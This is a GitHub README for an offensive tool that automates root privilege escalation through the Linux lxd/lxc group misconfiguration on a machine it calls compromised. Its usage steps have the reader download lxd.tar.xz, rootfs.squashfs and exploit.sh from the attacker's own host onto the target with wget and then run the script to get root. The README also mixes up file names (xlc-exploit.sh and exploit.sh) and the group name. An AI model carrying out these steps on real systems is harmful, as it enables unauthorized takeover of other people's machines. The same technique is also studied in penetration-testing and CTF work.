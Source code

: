 # lxc-Privilage-Escalation

## Description

lxc Privilage Escalation Is An Automation Tool To Exploit The Linux xlc Group Misconfiguration Which Leads To Get High Previlage (root) In The Compromised Server Or Machine

## Requitements

<ul>
<li>python3 |-> To Start The Host Server With It</li>
<li>Linux Debian Based |-> Because It Written With Bash :) & The apt For Debian Based Distros Like:</li>
</ul>
<ol>
<li>Debain</li>
<li>Ubuntu</li>
<li>Kali</li>
<li>Parrot OS</li>
<li>Back Box (Ubuntu Based)</li>
</ol>

## Wiki
- Clone The Repository:

`git clone https://github.com/Cyber-Guy1/lxc-Privilage-Escalation.git`

- Or Download It As A zip File

- Get Into The Cloned Repository:

`cd lxc-Privilage-Escalation`

- Give It The Right Permission:

`chmod +x xlc-exploit.sh`

- Run It:

`./exploit.sh`

- After The Tool Finished It's Tasks Now Go To The Compromised Machine

- Upload The Files Which Will Be The Exploit For Us In The Compromised Machine By Doing:

 `wget http://[Your IP]:8000/lxd.tar.xz` [-] For Example: `wget http://192.168.1.5:8000/lxd.tar.xz`<br>
 `wget http://[Your IP]:8000/rootfs.squashfs` [-] For Example: `wget http://192.168.1.5:8000/rootfs.squashfs`<br>

- Then Upload The Exploitation Script:

`wget http://[Your IP]:8000/exploit.sh` [-] For Example: `wget http://192.168.1.5:8000/exploit.sh`

- Give It The Right Permission:

`chmod +x exploit.sh`

- Finally Run It:

`./exploit.sh`

## Welcome Root ;)
